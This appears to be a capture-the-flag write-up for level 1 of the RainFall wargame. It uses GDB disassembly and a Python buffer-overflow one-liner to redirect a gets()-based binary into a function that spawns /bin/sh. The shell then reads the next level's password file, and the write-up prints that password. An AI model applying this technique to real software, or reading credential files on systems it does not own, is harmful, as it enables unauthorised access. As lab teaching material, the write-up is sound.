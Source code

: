 
# Level 1

The binary we now have, only use the gets() C function.


We already know this functions is vulnerable to buffer overflow attacks, so we are going to overwrite the EIP so its execute a subshell for us.



# GDB

```gdb
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) 

```

So we have 2 function, main and run


main :
```gdb

Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb)

```

run

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.


```

The main function use the gets(), lets take a look at the run function.

```gdb

(gdb) disas run 
Dump of assembler code for function run:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
(gdb) 

```

The run function use the system() call on "/bin/sh", tho the run function is not triggered by the main function.

So we will overwrite the EIP so it execute the addresse of "run"


The programm segfault when the EIP point to an addresse it doesn't own, so we can get the EIP adresses by making it segfaulting like so.


```gdb

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level1/level1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 

```

The program segfaulted at 0x41414141,, 0x41 refer to the 'A' letter, so we successfuly overwritted it, but we must know how many A it needed to reach the EIP, so we can position to his adresses, and then overwrite it with the run function adresses so it execute it.


There is a lot of ways to calculate it, like knowing the size of the buffer, or using tools.

By using ghidra we know that the buffer size is 76.

So we are going to print 76 A, and then print the adresse of the run function in reverse order since it will read the adresse in reverse order.

```sh
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 
```

It did executed our function but we dont have access to the shell.

```sh
(python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```

And we got our flag